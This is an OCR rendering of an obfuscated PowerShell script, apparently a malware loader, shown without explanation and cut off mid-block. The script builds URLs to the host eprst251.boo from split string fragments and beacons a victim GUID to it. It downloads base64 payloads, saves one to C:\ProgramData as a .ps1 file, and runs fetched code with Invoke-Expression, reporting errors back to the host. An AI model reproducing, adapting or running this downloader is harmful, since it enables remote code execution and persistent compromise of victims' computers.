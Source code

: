 ```s
    $lXDhTMDJqSAFnn = "w"
    $HKDoaKaxv = (New-Guid).ToString()
    $aTebwwaowsbbrUUTopUZpsjZ = New-Object Net.WebClient
    $aTebwwaowsbbrUUTopUZpsjZ.Headers.Add("User-Agent", "myUserAgentHere")
    $YpU = "?oELLrQJKoZhtDhWs=$mYoLehsZuDcJpwtZYnRgAIIgo&UyMWxrWzgLjhkx=$hhowUyysZxUVhmaQelBiPDRiUn&dVLdrGnckGwZJ=$hr&vKRZZRK=$($Cg)&pHHpfHApJIsnDpyQxHyJTHfM=$BmeBoy&File=file&AeAypRLxCibLOehARxuqWNR=$lXDhTMDJqSAFnn&IhU=$HKDoaKaxv"
    $UJOBBmKBtPlyyQBndyytBczBv = "htt"+"p"+"s://"+"eprst251.boo/73689d8a"+"-"+"25b4"+"-"+"41cf"+"-"+"b693"+"-"+"05591ed804a7"+"-"+"7433f7b1"+"-"+"9997"+"-"+"477b"+"-"+"aadc"+"-"+"5a6e8d233c61" + "$($YpU)"
    $xsLfdudkQBktwfQQjItfw = $aTebwwaowsbbrUUTopUZpsjZ.DownloadString($UJOBBmKBtPlyyQBndyytBczBv)
    $viSrdkNrrPrYdF = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($xsLfdudkQBktwfQQjItfw))
    $gysZgsffxZppKIgfHU = "usradm"
    if ($viSrdkNrrPrYdF.Contains($gysZgsffxZppKIgfHU)) {

        try {

            $LQ = "RpVpRNJ.ps1"
            $K = "C:\ProgramData\$($LQ)"
            $viSrdkNrrPrYdF | Out-File -FilePath $K
            $CoNC = $LQ
            $YpU = "?KblgSClgegJMev=$($LQ)&pHHpfHApJIsnDpyQxHyJTHfM=$($BmeBoy)"
            $BvikSaFXwYDk = "htt"+"p"+"s://"+"eprst251.b"+"o"+""+"o"+"/bb9c1a14-4e3d-40ab-bcc8-0b84e78255b0-4bed9ff2-0f4e-48fb-92ed-1065fcd85e01" + "$($YpU)"
            $xsLfdudkQBktwfQQjItfw = $aTebwwaowsbbrUUTopUZpsjZ.DownloadString($BvikSaFXwYDk)
            $viSrdkNrrPrYdF = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($xsLfdudkQBktwfQQjItfw))
            Invoke-Expression $viSrdkNrrPrYdF
        }
        catch {
            $HcEAjXEDFgAUtMMiPwLicU = $_.Exception.Message
            $icFJZsoaoaorsrDtZWvtoFQitW = "?IhU=$($HKDoaKaxv)&HZsZsos=$($HcEAjXEDFgAUtMMiPwLicU)"
            $jmtjjvjr = "htt"+"p"+"s://"+""+"e"+"prst251.boo/223dc805-5605-4a0b-b828-cdad1b84126"+"e"+"-79d39c2c-0f10-48d1-9"+"e"+"df-c18a784"+"e"+"fba0" + "$($icFJZsoaoaorsrDtZWvtoFQitW)"
            $xsLfdudkQBktwfQQjItfw = $aTebwwaowsbbrUUTopUZpsjZ.DownloadString($jmtjjvjr)
            try {
                $NToddpkHJ = "?aklshdjahsjdh=$($Cg)&ajhsdjhasjhd=nsp&ahsdjkasjkdh=$($($HKDoaKaxv))"
                $NQdQ = "htt"+"p"+"s://"+""+"e"+""+"p"+""+"r"+""+"s"+""+"t"+""+"2"+""+"5"+""+"1"+""+"."+""+"b"+""+"o"+""+"o"+""+"/"+""+"9"+""+"7"+""+"4"+""+"a"+""+"f"+""+"a"+""+"0"+""+"a"+""+"-"+""+"d"+""+"3"+""+"3"+""+"4"+""+"-"+""+"4"+""+"8"+""+"e"+""+"c"+""+"-"+""+"a"+""+"0"+""+"d"+""+"4"+""+"-"+""+"4"+""+"c"+""+"c"+""+"1"+""+"4"+""+"e"+""+"f"+""+"a"+""+"7"+""+"3"+""+"0"+""+"c"+""+"-"+""+"1"+""+"d"+""+"3"+""+"d"+""+"0"+""+"4"+""+"4"+""+"a"+""+"-"+""+"e"+""+"6"+""+"5"+""+"4"+""+"-"+""+"4"+""+"1"+""+"e"+""+"3"+""+"-"+""+"a"+""+"d"+""+"3"+""+"2"+""+"-"+""+"3"+""+"8"+""+"a"+""+"2"+""+"9"+""+"3"+""+"4"+""+"3"+""+"9"+""+"3"+""+"e"+""+"4"+"" + "$($NToddpkHJ)"
                $xsLfdudkQBktwfQQjItfw = $aTebwwaowsbbrUUTopUZpsjZ.DownloadString($NQdQ)
                $viSrdkNrrPrYdF = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($xsLfdudkQBktwfQQjItfw))
                Invoke-Expression $viSrdkNrrPrYdF
            }
            catch {
                $HcEAjXEDFgAUtMMiPwLicU = $_.Exception.Message
                $icFJZsoaoaorsrDtZWvtoFQitW = "?IhU=$($HKDoaKaxv)&HZsZsos=$($HcEAjXEDFgAUtMMiPwLicU)"
                $jmtjjvjr = "htt"+"p"+"s://"+""+"e"+"prst251.boo/223dc805-5605-4a0b-b828-cdad1b84126"+"e"+"-79d39c2c-0f10-48d1-9"+"e"+"df-c18a784"+"e"+"fba0" + "$($icFJZsoaoaorsrDtZWvtoFQitW)"
                $xsLfdudkQBktwfQQjItfw = $aTebwwaowsbbrUUTopUZpsjZ.DownloadString($jmtjjvjr)
            }
        }
    } else {
        try {

            Invoke-Expression $viSrdkNrrPrYdF
```